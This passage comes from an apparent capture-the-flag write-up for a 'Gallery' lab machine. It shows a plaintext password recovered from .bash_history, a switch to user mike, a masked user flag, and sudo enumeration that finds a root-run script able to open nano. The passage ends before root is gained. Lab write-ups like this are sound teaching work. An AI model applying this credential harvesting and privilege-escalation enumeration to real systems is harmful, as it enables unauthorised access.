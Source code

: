 but i looked again for the hidden files and now i could read the **.bash_history**.

```
...
cd html
ls -al
cat index.html
sudo -lb3stpassw0rdbr0xx
clear
sudo -l
...
```

and here i found the password. typed as clear text because he forgot to press return after `sudo -l`

> with `su mike` and entering the password.
> i switched to the **mike** user
{: .prompt-info}

first i went to the home directory and grabbed the first flag.

```shell
mike@gallery:/opt$ cd /home/mike
mike@gallery:~$ cat user.txt
THM{af0*********************ef}
```

### root
after that i began to check for ways to become root.

```
mike@gallery:/opt$ sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```

the command `sudo -l` got me the info that i can execute  `/opt/rootkit.sh` with sudo permissions.
this is the content of the script:

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
